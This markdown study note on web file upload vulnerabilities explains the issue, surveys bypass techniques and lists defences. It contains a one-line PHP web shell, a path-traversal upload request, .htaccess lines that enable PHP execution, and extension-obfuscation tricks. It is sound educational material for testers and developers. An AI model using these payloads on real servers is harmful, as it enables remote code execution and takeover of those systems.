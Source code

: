 # File upload vulnerabilities

## What are file upload vulnerabilities?
File upload vulnerabilities are when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size. Failing to properly enforce restrictions on these could mean that even a basic image upload function can be used to upload arbitrary and potentially dangerous files instead. This could even include server-side script files that enable remote code execution.

In some cases, the act of uploading the file is in itself enough to cause damage. Other attacks may involve a follow-up HTTP request for the file, typically to trigger its execution by the server.

## How web servers handle file requests
Web servers typically handle responses for resources as follows:

- `Non-executable files`: the file is served back to the user (e.g. `.png`).
- `Executable file`: the file is processed by the web server and the result is sent back to the user (e.g. `.php` or `.jsp`).
- `Executable file but server not configured to execute`: this will either trigger an error or send the content of the file back to the user, which can result in source code leakage.

:bulb: use the `Content-Type` header's MIME type to determine what type of file the server thinks it has sent you.

## What is the impact of file upload vulnerabilities?

The impact of file upload vulnerabilities generally depends on two key factors:
- Which aspect of the file the website fails to validate properly, whether that be its size, type, contents, and so on.
- What restrictions are imposed on the file once it has been successfully uploaded.

In the worst case scenario, the file's type isn't validated properly, and the server configuration allows certain types of file (such as .php and .jsp) to be executed as code. In this case, an attacker could potentially upload a server-side code file that functions as a web shell, effectively granting them full control over the server.

## How do file upload vulnerabilities arise?
Given the fairly obvious dangers, it's rare for websites in the wild to have no restrictions whatsoever on which files users are allowed to upload. More commonly, developers implement what they believe to be robust validation that is either inherently flawed or can be easily bypassed.

There are several types of attackes:

- `Content not validated`: allow an attacker to execute arbitrary script or code on the server.
- `File name/location not validated`: allow an attacker to overwrite existing files or upload files to a location they should not have access to.
- `Size not validated`: use file upload to consume memory and disk space (DoS).

## Attacks

### Deploying a web shell

A web shell is when an attacker can upload a file that allows them to execute any command on a web server:

```php
# execute arbitrary commands
# GET /example/exploit.php?command=echo%20%2Fetc%2Fpasswd HTTP/1.1
<?php echo system($_GET['command']); ?>
```

### Exploit file upload validation

#### Flawed file type validation

Uploads using `multipart/form-data` will send a request like the following:

```http
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="example.jpg"
Content-Type: image/jpeg

[...binary content of example.jpg...]

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="description"

Some image description right here

---------------------------012345678901234567890123456--
```

If the server trusts the `Content-Type: image/jpeg` value in the request and performs no further validation, it easy to upload a malicious file.

#### Bypass strict execution control in user-controlled directories

Server will usually be configured to prevent execution of any files in user upload directories.  It may be possible to cause the file to be uploaded to a new, unexpected location by altering the `filename` parameter in the upload request:

```http
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="../../exploit.php"
Content-Type: image/jpeg

<?php echo system($_GET['command']); ?>

```

#### Insufficient block of malicious filetypes

Servers may be configured to prevent execution of `.php` files, but may not block lesser known dynamic file types like `.php5` or `.shtml`.

##### Overriding server configuration

It may be possible to upload a file that changes the configuration for a given directory, thereby allowing execution of the malcious file:

```sh
# .htaccess granting execution of .php files in an a user controlled upload directory
LoadModule php_module /usr/lib/apache2/modules/libphp.so
AddType application/x-httpd-php .php
```

#### Obfuscation of file extension

Cause the server to execute a file with a different extension:

- Altered case: `malicious.pHp`
- Double file extenstion: `malicious.php.jpg`
- URL encoded file extension: `malicious%2Ephp`
- Null byte or semicolon to terminate: `malicious.php%00.jpg` or `malicious.php;.jpg`
- Unicode encoding: `malicious%u002ephp`
- Buried file extension, which will be stripped by the server: `malicious.p.phphp`

#### Flawed validation of file contents

Servers may try to determine file contents by checking properties of the files:

- Image file dimensions; or
- Expected byte sequences in the file.

However, these can be faked with something like [ExifTool](https://exiftool.org/).

#### Upload race conditions

Relies on the attacker uploading and attempting to execute the malicious file before the file server can scan and determine the file is malicious.

This can also be perfomed by file upload that accepts a file URL.  The attacker can attempt to lengthen the amount of time they have for an attack by putting the attack payload at the beginning of the file and then padding the upload with arbitrary data.

### Exploits without server-side execution

- `XSS`: upload a file that is consumed by other users (e.g. profile picture) and attacks the other user's account.
- `XXE`: if the file accepts XML based uploads, you can attempt attackes through files like `.doc` or `.xls` files.

### Upload via PUT

Some servers will accept file uploads through `PUT` requests that are not as rigorously validated as `POST` requests.  

:bulb: You can use an `OPTIONS` request to check if `PUT` is supported.

## Prevent

- Validate the file type, size, and content.
- Use an established file upload framework.
- Randomise the file name and location.
- Do not allow directory traversal characters `../` in the filename.
- Only move files to the server's permanent file system once they have been validated.
- Determine the safe max file size that can be uploaded.
- Deny execution of all files by default and then safe-list specific file types that can be executed.
- IP rate limit on file uploads to prevent DoS.
